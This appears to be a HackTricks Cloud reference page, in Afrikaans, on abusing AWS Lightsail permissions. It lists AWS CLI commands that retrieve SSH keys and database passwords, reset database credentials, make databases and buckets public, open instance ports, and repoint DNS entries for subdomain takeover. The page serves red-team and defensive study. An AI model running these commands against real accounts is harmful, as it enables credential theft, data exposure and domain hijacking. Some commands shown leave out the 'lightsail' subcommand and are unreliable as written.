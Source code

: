 # AWS - Lightsail Privesc

{% hint style="success" %}
Leer & oefen AWS Hack:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hack: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kontroleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}

## Lightsail

Vir meer inligting oor Lightsail, kyk:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Dit is belangrik om te let dat Lightsail **nie IAM-rolle wat aan die gebruiker behoort nie** gebruik nie, maar aan 'n AWS-bestuurde rekening, sodat jy hierdie diens nie kan misbruik vir privesc nie. Nietemin, **sensitiewe data** soos kode, API-sleutels en databasisinligting kan in hierdie diens gevind word.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Hierdie toestemming sal jou toelaat om die SSH-sleutels te kry om toegang tot die instansies te verkry:
```
aws lightsail download-default-key-pair
```
**Potensiële Impak:** Vind sensitiewe inligting binne die instansies.

### `lightsail:GetInstanceAccessDetails`

Hierdie toestemming sal jou in staat stel om SSH-sleutels te genereer om toegang tot die instansies te verkry:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potensiële Impak:** Vind sensitiewe inligting binne die instansies.

### `lightsail:CreateBucketAccessKey`

Hierdie toestemming sal jou toelaat om 'n sleutel te kry om toegang tot die emmer te verkry:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potensiële Impak:** Vind sensitiewe inligting binne die emmer.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Hierdie toestemming sal jou toelaat om die geloofsbriewe te kry om toegang tot die databasis te verkry:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Potensiële Impak:** Vind sensitiewe inligting binne die databasis.

### `lightsail:UpdateRelationalDatabase`

Hierdie toestemming sal jou toelaat om die wagwoord te verander om toegang tot die databasis te verkry:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

As die databasis nie openbaar is nie, kan jy dit ook openbaar maak met hierdie regte met

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Potensiële Impak:** Vind sensitiewe inligting binne die databasis.

### `lightsail:OpenInstancePublicPorts`

Hierdie toestemming maak dit moontlik om poorte na die Internet oop te maak.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potensiële Impak:** Toegang tot sensitiewe poorte.

### `lightsail:PutInstancePublicPorts`

Hierdie toestemming maak dit moontlik om poorte na die Internet oop te maak. Let daarop dat die oproep enige poort wat nie daarop gespesifiseer is nie, sal sluit.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potensiële Impak:** Toegang tot sensitiewe poorte.

### `lightsail:SetResourceAccessForBucket`

Hierdie regte maak dit moontlik om 'n instansie toegang tot 'n emmer te gee sonder enige ekstra geloofsbriewe

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Potensiële Impak:** Potensiële nuwe toegang tot emmers met sensitiewe inligting.

### `lightsail:UpdateBucket`

Met hierdie toestemming kan 'n aanvaller sy eie AWS-rekening leestoegang tot emmers verleen of selfs die emmers openbaar maak vir almal:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potensiële Impak:** Potensiële nuwe toegang tot emmers met sensitiewe inligting.

### `lightsail:UpdateContainerService`

Met hierdie regte kan 'n aanvaller toegang verleen tot private ECR's vanaf die houerdiens.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potensiële Impak:** Kry sensitiewe inligting van private ECR

### `lightsail:CreateDomainEntry`

'n Aanvaller met hierdie toestemming kan 'n subdomein skep en dit na sy eie IP-adres wys (subdomein-oorneem), of 'n SPF-rekord skep wat hom toelaat om e-posse van die domein te vervals, of selfs die hoofdomein na sy eie IP-adres instel.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potensiële Impak:** Oorname van 'n domein

### `lightsail:UpdateDomainEntry`

'n Aanvaller met hierdie toestemming kan 'n subdomein skep en dit na sy eie IP-adres rig (subdomein-oorneem), of 'n SPF-rekord skep wat hom toelaat om e-posse van die domein te vervals, of selfs die hoofdomein na sy eie IP-adres instel.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potensiële Impak:** Oorname van 'n domein

{% hint style="success" %}
Leer & oefen AWS Hack: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hack: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kontroleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
